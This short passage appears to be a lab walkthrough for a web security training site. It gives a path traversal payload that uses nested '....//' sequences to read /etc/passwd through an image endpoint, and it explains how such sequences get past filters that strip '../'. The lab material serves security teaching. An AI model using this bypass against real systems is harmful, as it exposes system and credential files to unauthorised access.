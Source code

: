 Use the following payload:
```
https://ac631f491ff3ef5dc03220e000790093.web-security-academy.net/image?filename=....//....//....//etc/passwd
```
Note: If an application strips or blocks directory traversal sequences from the user-supplied filename, then it might be possible to bypass the defense using a variety of techniques. You might be able to use nested traversal sequences, such as `....//` or `....\/`, which will revert to simple traversal sequences when the inner sequence is stripped.
